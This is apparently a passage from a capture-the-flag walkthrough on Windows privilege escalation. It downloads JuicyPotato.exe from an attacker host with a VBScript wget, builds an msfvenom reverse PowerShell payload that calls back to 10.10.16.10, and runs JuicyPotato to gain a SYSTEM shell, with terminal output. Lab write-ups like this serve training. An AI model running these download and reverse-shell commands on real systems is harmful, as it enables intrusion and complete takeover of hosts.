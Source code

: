 And Now run this command that will transfer the file from attacker machine to victim machine like this →

```bash
cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
```
{: .nolineno}
{: .nolineno}

in shell like this :

```powershell
C:\Temp>cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
cscript wget.vbs http://10.10.16.10/JuicyPotato.exe JuicyPotato.exe
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

C:\Temp>
```
{: .nolineno}
{: .nolineno}

I got the JuicyPotato executable file now so lets upload a bat file that will give me a Administator’s reverse shell →

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.10 lport=443 > shell.bat
```
{: .nolineno}
{: .nolineno}

I then transfered this bat file through cscript command only so lets run it and get a `nt\authority system` shell →

```powershell
C:\Temp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Temp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Temp>
```
{: .nolineno}
{: .nolineno}
